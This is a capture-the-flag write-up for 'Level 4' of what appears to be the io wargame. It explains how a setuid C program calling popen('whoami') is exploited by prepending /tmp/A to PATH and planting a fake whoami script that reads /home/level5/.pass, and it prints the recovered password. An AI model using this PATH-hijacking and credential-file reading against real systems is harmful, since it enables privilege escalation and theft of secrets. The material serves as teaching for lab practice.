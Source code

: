 ## Level 4:

The code for the program is simple:

```c
  1 //writen by bla
  2 #include <stdlib.h>
  3 #include <stdio.h>
  4 
  5 int main() {
  6         char username[1024];
  7         FILE* f = popen("whoami","r");
  8         fgets(username, sizeof(username), f);
  9         printf("Welcome %s", username);
 10 
 11         return 0;
 12 }
 13
```

We can see it opening a process and calling a command **whoami**. This is normally safe but we can change what **whoami** stands for by changing the path it looks for the command. We can create a file in /tmp directory.

```console
level4@io:/tmp$ mkdir A
level4@io:/tmp$ cd A
level4@io:/tmp/A$ export PATH=/tmp/A:$PATH
level4@io:/tmp/A$ vim whoami
```

First I created a directory (optional), added the directory to the **PATH** and created a whoami file containing the script I want to be run as **level5** :

```shellscript
<!-- whoami -->
1 #!/bin/sh
2 
3 cat /home/level5/.pass
```

After saving it, just execute the level04 program.

```console
level4@io:/tmp/A$ chmod ou+x whoami
level4@io:/tmp/A$ ../../levels/level04
Welcome DNLM3Vu0mZfX0pDd
level4@io:/tmp/A$ 
```


<!-- Level 4 password => DNLM3Vu0mZfX0pDd -->